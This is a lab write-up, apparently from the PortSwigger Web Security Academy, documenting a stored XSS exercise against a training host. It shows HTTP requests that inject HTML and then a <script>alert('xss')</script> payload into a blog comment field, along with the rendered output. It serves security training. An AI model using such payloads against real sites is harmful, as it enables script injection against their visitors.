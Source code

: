 ### Stored XSS into HTML context with nothing encoded
#### **Recon:**
-----
**Request:**
```http
POST /post/comment HTTP/2
Host: 048.web-security-academy.net

...Omitted for Brevity...

csrf=OFcW3FMwg7OWE4oYCxBSzPRVOca8WbFT&postId=2&comment=<b>content_injection</b>&name=user&email=user@user.com&website=http://user.com
```
**Response:**
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2711

...Omitted for Brevity...
```
`view-source:https://048.web-security-academy.net/post?postId=2`
```html
...Omitted for Brevity...
<section class="comment">
	<p>
	<img src="/resources/images/avatarDefault.svg" class="avatar">                            <a id="author" href="http://user.com">user</a> | 07 October 2023
	</p>
	<p><b>conent_injection</b></p>
	<p></p>
</section>
...Omitted for Brevity...
```
Content Injection Confirmed

**Affected Location:**
```
https://048.web-security-academy.net/post?postId=2
```

### Exploitation
----
**Payload:** 
```js
<script>alert("xss")</script>
```

**Request:**
```http
POST /post/comment HTTP/2
Host: 0a9a00c3047830e081987ae900b50048.web-security-academy.net

...Omitted for Brevity...

csrf=OFcW3FMwg7OWE4oYCxBSzPRVOca8WbFT&postId=2&comment=<script>alert('xss')</script>&name=user&email=user@user.com&website=http://user.com
```
**Response:**
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 5880
```